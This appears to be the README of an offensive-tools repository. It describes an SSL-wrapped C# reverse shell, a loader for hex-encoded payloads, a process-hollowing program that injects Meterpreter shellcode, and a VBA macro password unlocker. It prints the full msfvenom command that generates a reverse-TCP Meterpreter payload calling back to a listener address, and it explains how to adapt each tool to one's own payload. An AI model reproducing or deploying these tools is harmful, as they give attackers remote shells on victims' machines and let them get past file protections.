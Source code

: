 # Rando
//SslReverseLib is a copy of Jamie Bowman's reverse shell implementation (Ref #1).
The only change I made was wrapping it inside of Microsoft's official SSLSTREAM class (Ref #2).
Programmer needs only to provide a base64 encoded PEM certificate (Ref #3) to get it working
1. https://www.mrjamiebowman.com/hacking/c-sharp-reverse-shell/
2. https://docs.microsoft.com/en-us/dotnet/api/system.net.security.sslstream
3. https://nmap.org/ncat/guide/ncat-ssl.html

//HexecutableInvoker executes any hexecutable payload provided. 
It was inspired by a SANS article on malicious JavaScript (Ref #1) as well Reversing Hub's exquisite class on hexecutable malware. Reccomend highly!!! (Ref #2). Additionally, the hex converversion process can be understood by studying this stack overflow forum post on the same process (Ref #3). To launch, the programmer needs only to replace the namespace & class with that of their payload & then provide the necessary arguments. Convert your payload to .hex format using the instructions provided in ReversingHub's Udemy course linked below.
1. https://isc.sans.edu/forums/diary/Malicious+Script+With+Multiple+Payloads/25090/
2. https://www.udemy.com/course/reverse-engineering-deep-dive/
3. https://stackoverflow.com/questions/311165/how-do-you-convert-a-byte-array-to-a-hexadecimal-string-and-vice-versa

//C# Process Hollowing is Gmgorelik's implementation (Ref #1). The shell code being executed was generated using the following msfvenom command:
msfvenom -a x64 --platform windows -p windows/x64/meterpreter/reverse_tcp LHOST=192[.]168[.]56[.]104 LPORT=56104 -b "\x00" -f cs HollowP.cs 
It calls out to a meterpreter listener on 192[.]168[.]56[.]104:56104. You may modify the above command to generate your own payload all the same. This program is mostly commodity & highly detectable.
1. https://gist.github.com/smgorelik/9a80565d44178771abf1e4da4e2a0e75
2. https://www.offensive-security.com/metasploit-unleashed/msfvenom/

//VBA Macro Hacker
Originally derived from the below StackOverflow page (Ref #1) this .csv contains a function to unlock any VBA macro past password protection.
Open the MacroHacker.csv along side your favorite password protected macro & then execute the unlock funtion.
This should make the previously locked macro viewable in Excel's VBA editor.
1. https://stackoverflow.com/questions/1026483/is-there-a-way-to-crack-the-password-on-an-excel-vba-project
